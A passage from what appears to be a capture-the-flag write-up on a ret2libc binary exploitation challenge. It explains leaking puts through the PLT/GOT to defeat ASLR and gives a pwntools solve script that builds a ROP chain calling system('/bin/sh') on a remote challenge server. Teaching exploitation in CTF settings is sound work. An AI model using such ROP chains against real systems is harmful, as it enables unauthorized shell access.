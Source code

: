 ```python
p.sendlineafter(b":", payload)
p.interactive()
```

Again, this exploit worked locally and on my docker instance, but not on the challenge server.

This was because the challenge server had [ASLR](https://ir0nstone.gitbook.io/notes/binexp/stack/aslr) enabled, so the address of libc is randomized each time when the challenge is executed.

We referred to this [guide](https://book.jorianwoltjer.com/binary-exploitation/ret2libc#is-aslr-enabled) for bypassing ASLR.

Here's what the exploit does:

- It uses the PLT table to leak the base address of libc, `puts()` is used by the challenge so it'll show up here. Because the PLT table is not randomized by ASLR, we can use this PLT leak to leak any address that we want.
- We redirect the program flow back to `main()` to restart the program, now that we have the libc leak.
- Then, we'll use the leak to calculate the relative offset for `puts()` and get the correct libc base address.

Solve script:

```python
from pwn import *

elf = ELF("./chall")
context.binary = elf
p = remote("34.133.69.112",10007)
# p = remote("172.17.0.3",10007)
# p = elf.process()

offset = 72


rop = ROP(elf)
rop.puts(elf.got["puts"])
rop.main()

payload = flat({
    offset: rop.chain()
})


p.sendlineafter(b":", payload)
p.sendline(payload)
p.recvline()
r = p.recv(6)
leak = u64(r.ljust(8, b"\x00"))
print(f"leak={hex(leak)}")

# leak = 139143332265552
libc = ELF("./libc.so.6")
libc.address = leak - libc.symbols["puts"]
print(hex(libc.address))

rop = ROP(libc)
rop.call(rop.ret)  # Align the stack for 64-bit
rop.system(next(libc.search(b"/bin/sh")))  # Find the "/bin/sh" string and call system()
rop.exit()  # Clean exit after stopping the shell

payload = flat({
    offset: rop.chain()
})

```